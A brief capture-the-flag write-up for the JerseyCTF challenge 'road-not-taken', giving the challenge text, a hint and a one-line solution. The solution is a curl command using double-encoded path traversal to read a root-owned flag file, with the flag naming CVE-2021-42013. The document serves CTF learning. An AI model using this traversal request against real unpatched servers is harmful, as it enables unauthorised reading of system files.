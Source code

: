 # road-not-taken

## Challenge Text
* You've reached a fork in the road! Choose the right path to find your way to the flag.  

## Hint
* Recent CVEs may help you find your way.

## Solution
* curl -v --path-as-is https://jerseyctf-road-not-taken.chals.io/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/root/flag.txt
 
* Flag: `jctf{CVE-2021-42013}`

## Credit
* Developed by [Rob Bruder](https://github.com/njccicrob)
